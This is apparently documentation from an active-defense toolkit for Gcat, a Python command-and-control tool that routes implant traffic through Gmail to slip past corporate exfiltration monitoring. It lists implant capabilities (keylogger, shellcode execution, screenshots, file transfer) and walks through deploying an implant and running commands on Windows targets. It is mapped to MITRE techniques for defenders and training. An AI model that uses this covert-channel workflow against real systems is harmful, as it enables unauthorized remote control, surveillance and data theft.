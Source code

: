 
Gcat
=======

Website
-------

<https://github.com/adhdproject/gcat>

Description
-----------

I'm sure we're all aware of the venerable netcat.  Gcat is a close cousin
to netcat.  Rather than simply piping communications over plaintext tcp; gcat
communicates using gmail.  The idea here is that many companies might detect
suspicious data exfiltration.  Or might block direct communications out.
But if these companies allow their users to access gmail, we can pipe out
through that.

MITRE Shield
------------

Associated MITRE ATT&CK techniques:
* T1048 - Exfiltration Over Alternative Protocol

Applicable MITRE Shield techniques:
* [DTE0034](https://shield.mitre.org/techniques/DTE0034) - System Activity Monitoring
* [DTE0007](https://shield.mitre.org/techniques/DTE0007) - Behavioral Analytics

Install Location
----------------

`/opt/gcat/`

Usage
-----

To run the script, first cd to the gcat directory.

`~$` **`cd /opt/gcat`**

And run the application

`/opt/gcat$` **`python ./gcat.py`**

This will show you the help dialog.


															dP
													88
						.d8888b. .d8888b. .d8888b. d8888P
						88'  `88 88'  `"" 88'  `88   88
						1.   .88 88.  ... 88.  .88   88
						`8888P88 `88888P' `88888P8   dP
							.88
						d8888P


						.__....._             _.....__,
							.": o :':         ;': o :".
							`. `-' .'.       .'. `-' .'
							`---'             `---'

					_...----...      ...   ...      ...----..._
				.-'__..-''----    `.  `"`  .'    ----'''-..__`-.
				'.-'   _.--'''       `-._.-'       ''''--._   `-.`
				'  .-"'                  :                  `"-.  `
				'   `.              _.'"'._              .'   `
						`.       ,.-'"       "'-.,       .'
						`.                           .'
					jgs    `-._                   _.-'
								`"'--...___...--'"`

							...IM IN YUR COMPUTERZ...

								WATCHIN YUR SCREENZ

		optional arguments:
		-h, --help            show this help message and exit
		-v, --version         show program's version number and exit
		-id ID                Client to target
		-jobid JOBID          Job id to retrieve

		-list                 List available clients
		-info                 Retrieve info on specified client

		Commands:
		Commands to execute on an implant

		-cmd CMD              Execute a system command
		-download PATH        Download a file from a clients system
		-upload SRC DST       Upload a file to the clients system
		-exec-shellcode FILE  Execute supplied shellcode on a client
		-screenshot           Take a screenshot
		-lock-screen          Lock the clients screen
		-force-checkin        Force a check in
		-start-keylogger      Start keylogger
		-stop-keylogger       Stop keylogger

		Meow!





Gcat works in two parts.

Example 1: Deploying an Implant
-------------------------------

Configuring gcat and its implant is quite simple.  You need to have a
gmail account that you plan to use.  Then simply pop the username and
password into the two scripts gcat.py and implant.py as the "gmail_user"
and "gmail_pwd" variables.

		#########################################
		gmail_user = 'gcat.is.the.shit@gmail.com'
		gmail_pwd = 'veryc00lp@ssw0rd'
		server = 'smtp.gmail.com'
		server_port = 587
		#########################################

After you have set both gcat.py and implant.py to be properly configured
you can then run the implant on a target machine.

It's just a simple python script.

Example 2: Running a Command & Retrieving Output
------------------------------------------------

NOTE: Make sure that you have configured your gmail account to work with "less secure apps."  To get instructions on how to do that (it's easy, I promise) go here: https://support.google.com/accounts/answer/6010255?hl=en


Once you have an implant or two running you can control them from gcat.py.
To start we will want to get the list of all attached implants and their ids.
To do this run gcat.py with the -list option.

`/opt/gcat$` **`python ./gcat.py -list`**

		f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
		90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86

Now that we've got a list of attached implants, let's send a command to one.

`/opt/gcat$` **`python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'`**

		[*] Command sent successfully with jobid: SH3C4gv

Outstanding.  As you can see, we had to specify the id in conjunction with
the issuance of our command.  This might seem weird to you.  It certainly is
different from traditional netcat.  But think of the id as something akin
to the traditional host.

We do need to send another request in order to retrieve the output from
the command.  That's what the job id is for.

`/opt/gcat$` **`python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv`**

		DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
		JOBID: SH3C4gv
		FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
		CMD: 'ipconfig /all'


		Windows IP Configuration

				Host Name . . . . . . . . . . . . : unknown-2d44b52
				Primary Dns Suffix  . . . . . . . :
				Node Type . . . . . . . . . . . . : Unknown
				IP Routing Enabled. . . . . . . . : No
				WINS Proxy Enabled. . . . . . . . : No

		-- SNIP -

There you go.  That's the basic usage of Gcat.
